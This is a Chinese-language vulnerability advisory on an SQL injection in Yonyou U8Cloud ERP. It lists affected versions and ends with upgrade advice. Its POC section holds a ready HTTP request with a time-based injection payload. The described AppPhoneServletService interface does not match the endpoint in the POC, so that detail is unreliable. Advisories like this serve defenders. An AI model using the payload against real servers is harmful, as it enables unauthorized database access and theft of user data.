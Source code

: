 #  漏洞预警 | 用友U8Cloud SQL注入漏洞   
浅安  浅安安全   2024-03-02 08:01  
  
**0x00 漏洞编号**  
- # 暂无  
  
**0x01 危险等级**  
- 高危  
  
**0x02 漏洞概述**  
  
用友U8 cloud是一款集成的企业资源计划解决方案，旨在帮助不断发展的企业同步前后端业务功能。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/7stTqD182SXoaRemR3mxsuiciaUbPcWn9jsiaZ70u94EB6R9eOgsPln1PWpP3MSljJmZEwZYep2iakwjxN7DsbXlfg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**0x03 漏洞详情**  
###   
###   
  
**漏洞类型：**  
SQL漏洞  
  
**影响：**  
获取敏感信息  
  
**简述：**  
用友U8Cloud AppPhoneServletService接口处存在SQL注入漏洞，未授权的攻击者可通过此漏洞获取数据库权限，从而盗取用户数据，造成用户信息泄露。  
###   
  
**0x04 影响版本**  
- 用友-U8-Cloud 2.0  
  
- 用友-U8-Cloud 2.1  
  
- 用友-U8-Cloud 2.3  
  
- 用友-U8-Cloud 2.5  
  
- 用友-U8-Cloud 2.6  
  
- 用友-U8-Cloud 2.65  
  
- 用友-U8-Cloud 2.7  
  
- 用友-U8-Cloud 3.0  
  
- 用友-U8-Cloud 3.1  
  
- 用友-U8-Cloud 3.2  
  
- 用友-U8-Cloud 3.5  
  
- 用友-U8-Cloud 3.6  
  
- 用友-U8-Cloud 5.0  
  
**0x05****POC**  
```
POST /u8cuapws/rest/archive/verify HTTP/1.1
Host: {host}
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
 
{"orgInfo":{"code":"1';WAITFOR DELAY '0:0:5'--"}}
```  
  
**仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布****者**  
**不承担任何法律及连带责任。**  
  
**0x06****修复建议**  
  
**目前官方已发布漏洞修复版本，建议用户升级到安全版本****：**  
  
https://www.yonyou.com/  
  
  
  
